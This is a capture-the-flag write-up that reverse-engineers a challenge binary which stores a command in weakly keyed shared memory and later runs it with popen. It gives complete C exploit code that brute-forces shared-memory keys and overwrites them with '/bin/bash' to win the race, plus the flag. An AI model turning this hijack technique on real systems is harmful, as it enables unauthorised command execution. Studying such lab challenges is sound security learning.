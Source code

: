 ```yaml
---
date: '2025-07-07T23:42:59+05:30'
draft: false
title: 'Server_status Revenge'
tags:
- pwn
- race-condition
- shared-memory
---
```


First time solving a race condition / shared memory CTF challenge.

<!--more-->


## Reverse Engineering

Login to the instance, and download the challenge binary. Open it up in ghidra shows

![RE](images/re-with-ghidra.png)

### What is happening

1. Store command in shared memory obtained by using a weak shmid.

![store-to-shm](images/store-to-shm.png)

2. Display a loader for about 1.5 secs

![loader](images/loader.png)

3. Retrieve command from shared memory.

![retrieve](images/retrieve.png)

4. `popen` it

![](images/retrieved_command.png)

## Exploit

The following C Code:

1. Get's handles to shared memory in the range [0, 0xfffff].
2. Writes the string to it.

```c
// exploit.c
// compile: `gcc -static  exploit.c -o exploit`

#include <string.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <unistd.h>

#define MAX_KEY 0xFFFFF
int main() {
  for (key_t key = 0; key <= MAX_KEY; key++) {
    int shmid = shmget(key, 0, 0444);
    if (shmid != -1) {
      void *addr = shmat(shmid, NULL, SHM_W | SHM_W);
      strcpy(addr, "/bin/bash");
    }
  }
  return 0;
}
// vim:sw=2
```

Copy the exploit to the instance, and right after executing `./secure-server`, execute the `exploit`.

![expliot](images/exploit.png)

## Flag

The flag content is referring to [server-status challenge](../server_status)

`NHNC{WTF_NEVER_MADE_Challenges_at_night_especially_when_u_r_sleepy_daebdebb71bb43cbbcbe07893df7df53}`


